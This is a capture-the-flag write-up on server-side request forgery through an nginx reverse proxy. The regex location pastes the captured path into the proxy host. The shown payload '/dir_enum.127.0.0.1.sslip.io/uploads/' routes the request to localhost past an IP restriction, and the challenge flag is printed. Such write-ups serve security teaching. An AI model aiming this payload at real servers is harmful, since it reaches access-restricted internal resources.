


In this challenge we trying to achieve `SSRF` and get to the `uploads` folder.

This is the `nginx.conf` file that was given to us.
```nginx
server {
        listen 80;
        root /var/www/app/;
        resolver 127.0.0.11 ipv6=off;
 
        location / {
            root /var/www/app/login/;
            try_files $uri $uri/login.html $uri/ =404;
        }
 
        location /static/ {
                alias /var/www/app/static/;
        }
 
 
        location /uploads/ {
            allow 127.0.0.1;
            deny all;
            autoindex on;
            alias /var/www/app/uploads/;
        }
 
        location ~ /dir_enum(.*) {
            proxy_pass   http://web-serveur-ch94-apache$1;
            proxy_redirect off;
        }
}
```

As we can see, it blocks all requests which aren't from `127.0.0.1` to `/uploads`.

In addition, there is this reverse proxy:
```nginx
location ~ /dir_enum(.*) {
    proxy_pass   http://web-serveur-ch94-apache$1;
    proxy_redirect off;
}
```
Notice that if we access: `/dir_enumTest/`, it'll go to:
```
http://web-serveur-ch94-apacheTest/
```

By this way we can use `DNS rebinding`, and then manage to get it to think it comes from `127.0.0.1`.

We'll use https://sslip.io, this dns resolver offer subdomains like:
```
100.100.100.100.sslip.io
```
and it'll resolve to `100.100.100.100`, and same for every possible subdomain.

So, in our case we'll take:
```
127.0.0.1.sslip.io
```
And set it to the server, this will be our payload:
```
/dir_enum.127.0.0.1.sslip.io/uploads/
```



and know, we will get `nconf.bak`



**Flag:** ***`RM{SSRF_v1a_Ng1nX_:o}`***
